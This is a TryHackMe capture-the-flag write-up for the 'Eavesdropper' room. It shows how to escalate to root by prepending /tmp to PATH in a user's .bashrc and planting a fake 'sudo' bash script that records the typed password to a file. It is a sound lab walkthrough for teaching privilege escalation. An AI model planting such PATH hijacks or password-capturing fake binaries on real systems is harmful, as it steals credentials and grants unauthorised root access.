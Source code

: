 ```yaml
---
Platform: TryHackMe
Difficulty: Medium
Status: Rooted/Finished
Type: Machine
Title: Eavesdropper
Category: 
tags: 
CreatedOn: 04-12-2023
---
```

# Eavesdropper

In this writeup we are going to solve the Eavesdropper room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/eavesdropper](https://tryhackme.com/room/eavesdropper)

  

Let’s Start 🙌

  

First Start the machine and download the ssh key. After downloading ssh key, login as frank using this SSH key. The command is : `ssh -i <SSH_Key> frank@<TARGET_IP>`

  

![[Eavesdropper/assets/Untitled.png|Untitled.png]]

  

Our task is to escalate our privileges as root and to read the root flag. For that first we try to take a look at the processes that are running in the target machine. For this purpose I am going to use the tool [pspy](https://github.com/DominicBreuker/pspy). You can also use other tools such as [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) for this purpose.

Download the tool to your local machine. We have to transfer this file from our local machine to the target machine because tryhackme rooms don’t have an internet connection. So, we will first download the pspy tool to our local machine. After downloading, create a Python simple HTTP server in the same directory where you downloaded the pspy tool. The command for creating a Python simple HTTP server is: `python -m http.server`. This command will host a simple web server with your current working directory as the root of the web server, which is accessed by your machine's IP address on port `8000`.

  

![[Eavesdropper/assets/Untitled 1.png|Untitled 1.png]]

  

Now you can use the `wget` command to download the pspy tool to the target machine. Since, you are connected to tryhackme via the openvpn, which implies that your target machine can reach your local machine via the openvpn tunnel and vice versa. By this way we can download the pspy tool to the target machine from our local machine.

The command is : `wget http://<tun0-IPaddress>:8000/pspy32`

  

![[Eavesdropper/assets/Untitled 2.png|Untitled 2.png]]

  

Now update the permissions of the pspy tool to executable and run the pspy tool.

  

![[Eavesdropper/assets/Untitled 3.png|Untitled 3.png]]

  

Now take a look at the output of the pspy tool, did you notice anything fishy!!!.

  

![[Eavesdropper/assets/Untitled 4.png|Untitled 4.png]]

  

You can see that a process with the process ID `1844` executes the command `sudo cat /etc/shadow`. And you can also see that this process is repeating again and again. Here the user `frank` uses the `sudo` command to run this, so he must have to enter the root password to run this command. We can capture this process to find the root users password. How are we going to capture this password???

We know that the `sudo` command is located in the `/bin` folder. Take a look at the `PATH` environment variable by using the command : `echo $PATH`.

  

![[Eavesdropper/assets/Untitled 5.png|Untitled 5.png]]

  

For every command or tool we use in the Linux terminal, the Linux system first checks for that particular command or tool file in the order that is mentioned in the `PATH` variable i.e, if we use the command `sudo`, the Linux system first checks the `/usr/local/sbin` directory for the file `sudo`. If it’s not found then it will search in the next directory `/usr/local/bin`. Similarly it will check all the directories for the file `sudo` in the order mentioned in the `PATH` variable until it finds the file.

  

We can take advantage of this characteristic of the Linux system to seek the root users password. This is known as [`Sudo Hijacking`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking). Now we will a variable named `PATH` at the beginning of the `.bashrc` file that is located in the `/home/frank` directory with the following path: `/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`.

  

![[Eavesdropper/assets/Untitled 6.png|Untitled 6.png]]

  

By doing this we make the Linux system to first look into the `/tmp` directory for the `sudo` file. Now we can create a fake `sudo` executable file in the `/tmp` directory, which will steal the credentials. By this way when the user `frank` tries to execute the `sudo` command, instead of the actual `sudo` file that is located in the `/bin` directory, the `sudo` file located in the `/tmp` that we created will be executed. For this I have used the following bash script for capturing the password.

  

```
#! /bin/bash

read -sp "[sudo] password for frank: " password

echo $password > /home/frank/password.txt
```

  

![[Eavesdropper/assets/Untitled 7.png|Untitled 7.png]]

  

This script is saved in the name `sudo` in the `/tmp` directory. After saving the file, we have to escalate the files permission to executable by using the following command : `chmod +x sudo`

  

After completing these steps successfully, if you check the `/home/frank` directory you can find the `password.txt` file. If you read the file using the `cat` command you will find the flag.

  

![[Eavesdropper/assets/Untitled 8.png|Untitled 8.png]]

  

Now you got the password for escalating your privileges as the root user. Thus, escalate your privileges as root user using the found password and check the `/root` directory, you can find the flag!!!!

  

![[Eavesdropper/assets/Untitled 9.png|Untitled 9.png]]

  

Thank You!!!!